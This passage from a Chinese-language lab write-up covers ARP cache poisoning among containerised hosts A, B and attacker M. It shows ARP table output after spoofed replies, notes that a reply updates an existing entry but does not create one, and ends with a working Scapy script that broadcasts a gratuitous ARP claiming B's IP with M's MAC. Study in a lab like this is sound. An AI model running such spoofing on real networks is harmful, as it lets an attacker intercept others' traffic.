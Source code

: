 此时 `A` 上的记录被更新：

```shell
A-10.9.0.5$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```

修改成功。

> Scenario 2: `B`’s IP is not in `A`’s cache.

首先删除 `A` 的 arp 中关于 `B` 的记录：

```shell
A-10.9.0.5$ arp -d 10.9.0.6
```

然后再次运行：

```shell
M-10.9.0.105$ arp.py
.
Sent 1 packets.
```

抓包得到：

![arp4](/assets/post/images/arp4.webp)

此时 `A` 上的记录没有变化：

```shell
A-10.9.0.5$ arp -n
```

可见 reply 消息只能更新内容，却不能新建。

### Task 1.C using ARP gratuitous message

修改程序：

```python
#!/usr/bin/python3 
from scapy.all import * 

A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

eth = Ether(src=M_mac,dst='ff:ff:ff:ff:ff:ff') 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst='ff:ff:ff:ff:ff:ff', pdst=B_ip,
          op=1) 

pkt = eth / arp 
sendp(pkt)
```

